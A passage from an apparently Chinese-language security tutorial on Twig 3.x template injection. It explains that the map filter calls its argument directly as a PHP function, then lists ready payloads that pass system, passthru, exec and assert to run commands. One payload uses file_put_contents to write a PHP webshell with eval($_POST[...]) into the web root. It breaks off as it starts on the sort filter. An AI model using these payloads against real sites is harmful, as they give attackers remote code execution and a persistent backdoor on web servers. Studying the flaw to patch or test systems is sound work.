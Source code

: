 > 当如下使用 map 时

```php
{{["Mark"]|map((arg)=>"Hello #{arg}!")}}
```

> Twig 3.x 会将其编译成

```php
twig_array_map([0 => "Mark"], function ($__arg__) use ($context, $macros) { $context["arg"] = $__arg__; return ("hello " . ($context["arg"] ?? null))})
```

> 来看看源码中这个方法是怎么执行的

```php
function twig_array_map($array, $arrow)
{
    $r = [];
    foreach ($array as $k => $v) {
        $r[$k] = $arrow($v, $k);    // 直接将 $arrow 当做函数执行
    }

    return $r;
}
```

> 从上面的代码中可以看到传入的 `$arrow` 直接就被当成函数执行，即 `$arrow($v, $k)`，而 `$v` 和 `$k` 分别是 `$array` 中的 `value` 和 `key`
> 并且 `$array` 和 `$arrow` 都是可控的，因此直接传一个可传入两个参数的、能够命令执行的危险函数名即可实现命令执行

```php
system ( string $command [, int &$return_var ] ) : string
passthru ( string $command [, int &$return_var ] )
exec ( string $command [, array &$output [, int &$return_var ]] ) : string
shell_exec ( string $cmd ) : string
```

> 上述四个方法可以达到命令执行的有前三个，并且 exec 是无回显执行

```php
{{["calc"]|map("system")}}
{{["calc"]|map("passthru")}}
{{["calc"]|map("exec")}}    // 无回显
```

> 如果上面这些命令执行函数都被禁用了还可以执行其他函数执行任意代码

```php
{{["phpinfo();"]|map("assert")|join(",")}}
{{{"<?php phpinfo();eval($_POST[H3rmesk1t]);":"/var/www/html/shell.php"}|map("file_put_contents")}}    // 写 Webshell
```

> 既然 map 的 `$arrow` 可以利用，那继续寻找带有 $arrow 参数的应该也可以发现可以利用的过滤器

### sort 过滤器
> 这个 sort 筛选器可以用来对数组排序，可以传递一个箭头函数来对数组进行排序
